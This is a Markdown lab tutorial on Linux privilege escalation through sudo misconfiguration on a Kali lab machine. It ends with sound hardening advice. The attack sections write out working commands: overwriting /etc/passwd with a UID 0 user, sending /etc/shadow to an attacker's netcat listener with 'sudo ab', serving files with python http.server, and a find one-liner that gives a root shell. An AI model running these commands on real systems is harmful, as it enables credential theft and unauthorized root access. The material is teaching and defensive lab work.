









# Linux Privilege Escalation

> Demonstrates privilege escalation via **sudo misconfiguration** — granting seemingly harmless commands (`cp`, `rm`, `ab`) sudo access and exploiting them to gain root.

---

## 1. Understanding Sudo Permissions

### Creating a Normal User

```
sudo adduser oscp
New password: 123
Retype new password: 123
```

The new user `oscp` is a **normal user** — it does not have sudo permission:

```
└─$ sudo su
[sudo] password for oscp: 
oscp is not in the sudoers file.
```

### Checking Sudo Permissions with `sudo -l`

`sudo -l` (sudo -list) shows which commands a user can execute with sudo.

**User `oscp` — no sudo rights:**

```
┌──(oscp㉿kali)-[/home/kali]
└─$ sudo -l
[sudo] password for oscp: 
Sorry, user oscp may not run sudo on kali.
```

**User `kali` — full sudo rights:**

```
┌──(kali㉿kali)-[~]
└─$ sudo -l
[sudo] password for kali: 
Matching Defaults entries for kali on kali:
    secure_path=/usr/sbin\:/usr/bin\:/sbin\:/bin

Runas and Command-specific defaults for kali:
    Defaults!/usr/sbin/visudo env_keep+="SUDO_EDITOR EDITOR VISUAL"

User kali may run the following commands on kali:
    (ALL : ALL) ALL
```

The `oscp` user is a normal user — it can read `/etc/passwd` but not modify it.

---

## 2. Exploit 1: Privilege Escalation via `cp` (Copy)

### Step 1 — Find the Binary Location

```
┌──(oscp㉿kali)-[/home/kali]
└─$ which cp
/usr/bin/cp
```

### Step 2 — Grant `cp` Sudo Access (as Root)

Edit the sudoers file from a root terminal:

```
┌──(root㉿kali)-[/home/kali]
└─# nano /etc/sudoers
```

The sudoers file contains which users can access sudo:


Add the following entry at the bottom:

```
oscp  ALL=(ALL:ALL) /usr/bin/cp
```

**Breakdown:**
- `oscp` — the user
- `ALL=(ALL:ALL)` — first `ALL` = user, second `ALL` = group (can run as any user/group)
- `/usr/bin/cp` — the only command granted sudo rights


Save and exit.

### Step 3 — Verify Permission

```
┌──(oscp㉿kali)-[/home/kali]
└─$ sudo -l
[sudo] password for oscp: 
Matching Defaults entries for oscp on kali:
    secure_path=/usr/sbin\:/usr/bin\:/sbin\:/bin

Runas and Command-specific defaults for oscp:
    Defaults!/usr/sbin/visudo env_keep+="SUDO_EDITOR EDITOR VISUAL"

User oscp may run the following commands on kali:
    (ALL : ALL) /usr/bin/cp
```

### Step 4 — The Attack: Overwrite `/etc/passwd`

**Navigate to oscp's home directory:**

```
┌──(oscp㉿kali)-[/home/kali]
└─$ cd

┌──(oscp㉿kali)-[~]
└─$ pwd
/home/oscp
```

**Copy the passwd file locally:**

```
┌──(oscp㉿kali)-[~]
└─$ cp /etc/passwd .

┌──(oscp㉿kali)-[~]
└─$ ls
passwd
```

**Give full permissions to the copied file:**

```
┌──(oscp㉿kali)-[~]
└─$ chmod 777 passwd

┌──(oscp㉿kali)-[~]
└─$ ls -la
-rwxrwxrwx 1 oscp oscp  3363 Jun 17 12:36 passwd
```

**Generate a password hash for the new user:**

```
┌──(root㉿kali)-[/home/kali]
└─# openssl passwd 1234
$1$.0RnzXMA$Fotu15ItNGn9sWWoVqdis0
```

**Edit the local passwd file — add a new user `abc` with UID 0 (root):**

The `x` in the password field normally means password is in `/etc/shadow`. We replace it with our hash.

```
abc:$1$.0RnzXMA$Fotu15ItNGn9sWWoVqdis0:0:0:comment:/:/bin/bash
```

**Field breakdown:**
- `abc` — username
- `$1$...` — password hash (instead of `x`)
- `0:0` — UID:GID (both 0 = root)
- `comment` — GECOS/comment field
- `/` — home directory
- `/bin/bash` — login shell

**Overwrite the real passwd file using sudo cp:**

```
sudo cp passwd /etc/passwd
```

**Login as the new user — root shell obtained:**

```
┌──(oscp㉿kali)-[~]
└─$ su abc                                                                                      
Password: 
root@kali:/home/oscp# 
```

> [!CAUTION]
> Any configuration can become a misconfiguration. The issue is not that `cp` itself is dangerous — the issue is that **`cp` can write arbitrary files as root** when executed through sudo.

### Why This Works

The rule:

```
oscp ALL=(ALL:ALL) /usr/bin/cp
```

**Intended:** "Allow the user to copy files."
**Actually granted:** "Allow the user to overwrite ANY file on the system as root."

This includes critical files like:

```
/etc/passwd
/etc/shadow
/etc/sudoers
/root/.ssh/authorized_keys
/etc/crontab
```

### Attack Chain Summary

1. Copy `/etc/passwd` to local directory
2. Modify it locally — add a UID 0 account with known password
3. Use sudo-enabled `cp` to overwrite `/etc/passwd`
4. Login as the new UID 0 account → **root shell**

> This is a textbook **Privilege Escalation via Sudo Misconfiguration** (MITRE ATT&CK T1548.003 — Sudo and Sudo Caching), frequently found in OSCP-style labs.

---

## 3. Exploit 2: Escalation via `rm` (Remove)

### Grant `rm` Sudo Access

```
┌──(root㉿kali)-[/home/kali]
└─# nano /etc/sudoers
```


**Verify:**

```
┌──(oscp㉿kali)-[~]
└─$ sudo -l
Matching Defaults entries for oscp on kali:
    secure_path=/usr/sbin\:/usr/bin\:/sbin\:/bin

Runas and Command-specific defaults for oscp:
    Defaults!/usr/sbin/visudo env_keep+="SUDO_EDITOR EDITOR VISUAL"

User oscp may run the following commands on kali:
    (ALL : ALL) /usr/bin/rm
```

### Check GTFOBins

[GTFOBins](https://gtfobins.github.io) — a curated list of Unix executables that can bypass local security restrictions in misconfigured systems.



Search for `rm`:



**No results** — `rm` cannot directly spawn a shell.

### Indirect Escalation via `rm`

While `rm` can't give a direct shell, you can still escalate:

1. **Delete critical config files** from `/etc/` (important configuration files)
2. The system fails to boot normally → enters **troubleshooting/recovery mode**
3. Recovery mode opens a **root shell by default**
4. From that root shell, grant permissions to your user
5. Restore the deleted file from a backup copy you kept elsewhere

---

## 4. GTFOBins: Shell vs Non-Shell Commands

### Commands That Can Directly Spawn a Shell


**Example — `ash` command:** You can directly enter a command and take a shell.



### Commands That Cannot Spawn a Shell

**Example — `ab` command (Apache Bench):** Only supports upload and download — no shell.



---

## 5. Exploit 3: Escalation via `ab` (Apache Bench — File Upload/Download)

### Grant `ab` Sudo Access

```
┌──(root㉿kali)-[/home/kali]
└─# nano /etc/sudoers
```

Add:

```
oscp  ALL=(ALL:ALL) /usr/bin/ab
```


**Verify:**

```
┌──(oscp㉿kali)-[~]
└─$ sudo -l
[sudo] password for oscp: 
Matching Defaults entries for oscp on kali:
    secure_path=/usr/sbin\:/usr/bin\:/sbin\:/bin

Runas and Command-specific defaults for oscp:
    Defaults!/usr/sbin/visudo env_keep+="SUDO_EDITOR EDITOR VISUAL"

User oscp may run the following commands on kali:
    (ALL : ALL) /usr/bin/ab
```

Even without knowing what `ab` does, `sudo -l` reveals it has sudo privileges. Check GTFOBins:


`ab` supports file upload and download.

### Step 1 — Exfiltrate `/etc/shadow` (Upload to Attacker)


**On attacker machine (Kali) — start a listener:**

```bash
nc -l -p 80 | awk 'BEGIN {RS="\r\n\r\n";ORS=""} NR==2' > shadow
```

This listens on port 80 and extracts the file content from the HTTP request.

**On victim machine (oscp user) — send the file:**



```bash
sudo ab -p /etc/shadow http://192.168.60.134/
```






**The `/etc/shadow` file is received on the attacker machine:**


### Step 2 — Create a Modified passwd File (on Attacker)

On the attacker Kali machine, copy and edit the passwd file:

```
┌──(kali㉿kali)-[~]
└─$ cp /etc/passwd .
                                                                                                
┌──(kali㉿kali)-[~]
└─$ ls
Desktop  Documents  Downloads  Music  passwd  Pictures  Projects  Public  Templates  Videos
                                                                                                
┌──(kali㉿kali)-[~]
└─$ nano passwd    
```

Add a new user `abc1` with the same root credentials as the previously added `abc` user:


Save and exit.

### Step 3 — Download Modified passwd to Victim (via Python HTTP Server)

The `oscp` user doesn't have permission to directly modify `/etc/passwd`, and neither does `kali` without sudo. Use GTFOBins' download method:



**On attacker machine — start a Python HTTP server:**

```bash
python -m http.server 80
```

A Python HTTP server broadcasts all files in the current folder over the network. Browsing to the IP shows the shared files:



**On victim machine (oscp user) — download the modified passwd file** and overwrite `/etc/passwd` using the `ab` sudo privilege.

> [!NOTE]
> You can use any port (80, 8080, etc.) for the Python server. Port 80 is used here since it's the standard HTTP port.

---

## 6. How to Prevent Sudo Misconfiguration

### 6.1 Follow the Principle of Least Privilege

Never give sudo access to generic file-manipulation commands.

**Dangerous sudoers entries:**

```
oscp ALL=(ALL:ALL) /usr/bin/cp
oscp ALL=(ALL:ALL) /usr/bin/mv
oscp ALL=(ALL:ALL) /usr/bin/vim
oscp ALL=(ALL:ALL) /bin/bash
```

**Instead, create a controlled script:**

```bash
#!/bin/bash
cp /var/log/app.log /backup/
```

Give sudo permission only to that script:

```
oscp ALL=(root) NOPASSWD: /usr/local/bin/backup_log.sh
```

### 6.2 Use Full Paths

Always specify the exact binary to prevent PATH manipulation attacks.

```
# Bad
oscp ALL=(ALL) cp

# Good
oscp ALL=(ALL) /usr/bin/cp
```

### 6.3 Review Sudo Rules Regularly

```bash
sudo -l                      # check per user
sudo cat /etc/sudoers        # inspect sudoers file
ls /etc/sudoers.d/           # check drop-in rules
```

Many organizations forget old entries.

### 6.4 Check GTFOBins Before Adding Any Binary

Many seemingly harmless binaries can be abused: `cp`, `tar`, `find`, `less`, `vim`, `nano`, `awk`, `python`, `perl`, `rsync`, `zip`

Reference: [GTFOBins](https://gtfobins.github.io)

**Example — `find` can yield a root shell:**

```bash
sudo find . -exec /bin/bash \; -quit
```

### 6.5 Use NOEXEC Where Possible

Prevents spawning child processes from some programs:

```
Defaults!/usr/bin/less noexec
```

Not a complete defense, but useful.

### 6.6 Restrict Arguments

Instead of granting full control of a command, restrict to specific arguments:

```
# Bad — can control any service
oscp ALL=(root) /usr/bin/systemctl

# Good — can only restart nginx
oscp ALL=(root) /usr/bin/systemctl restart nginx
```

### 6.7 Prefer Groups Over Individual User Rules

Instead of individual entries per user, create a group:

```
# Bad
alice   ALL=(ALL) /usr/bin/cp
bob     ALL=(ALL) /usr/bin/cp
charlie ALL=(ALL) /usr/bin/cp

# Good
%backupadmins ALL=(root) /usr/local/bin/backup.sh
```

Easier to audit and manage.

### 6.8 Always Use `visudo` to Edit Sudoers

```bash
visudo          # ✅ performs syntax checking
nano /etc/sudoers  # ❌ no syntax checking — can lock you out
```

> [!TIP]
> **Rule of thumb:** If a command can read/write arbitrary files, execute commands, spawn shells, edit files, or load plugins — assume it can become root if granted through sudo. Always verify against [GTFOBins](https://gtfobins.github.io) before adding it to `sudoers`.
